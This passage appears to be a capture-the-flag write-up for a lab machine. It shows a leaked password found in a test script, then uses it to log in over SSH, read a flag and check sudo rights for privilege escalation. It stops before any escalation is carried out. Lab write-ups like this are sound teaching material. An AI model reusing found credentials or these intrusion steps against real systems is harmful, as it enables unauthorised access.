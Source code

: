 ```
getDreams()

```

So this script connects to the mysql db we found earlier and receives 'dreamers' and 'dreams', and prints them into the shell. the mysql user is called 'death', who is also the owner of the file. Sadly the password is redacted.

## test.py

```
cat test.py
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"

data = {
        "cont1":password,
        "bogus":"",
        "submit":"Log+in"
        }

req = requests.post(url,data=data)

if "Password correct." in req.text:
    print("Everything is in proper order. Status Code: " + str(req.status_code))
else:
    print("Something is wrong. Status Code: " + str(req.status_code))
    print("Results:\n" + req.text)
```

This file leaks a password. Using it with the username lucien for ssh gives us access as lucien:
```
ssh lucien@10.10.223.148 
```

This gives us the first flag in luciens home folder.
```
cat ~/lucien_flag.txt
```

# Death

checking our groups with 
```
id -Gn
```

shows that we're part of a 'adm' group. Since we have the password of lucien, sudo -l is also worth checking out:
```
lucien@dreaming:~$ sudo -l
Matching Defaults entries for lucien on dreaming:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py

```
